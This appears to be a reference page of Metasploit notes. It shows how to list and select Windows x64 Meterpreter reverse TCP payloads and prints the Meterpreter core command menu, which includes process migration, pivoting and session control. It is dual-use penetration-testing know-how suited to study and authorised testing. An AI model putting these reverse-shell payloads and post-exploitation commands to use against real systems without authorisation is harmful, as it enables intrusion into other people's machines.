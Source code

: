 ```text
grep meterpreter grep reverse_tcp show payloads
```

```text title="Output"
15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
```

## Selecting Payloads

```text
set payload 15
```

```text title="Output"
payload => windows/x64/meterpreter/reverse_tcp
```

## MSF - Meterpreter Commands

```text
help
```

```text title="Output"
Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of Unicode strings
    enable_unicode_encoding   Enables encoding of Unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    IRB                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
```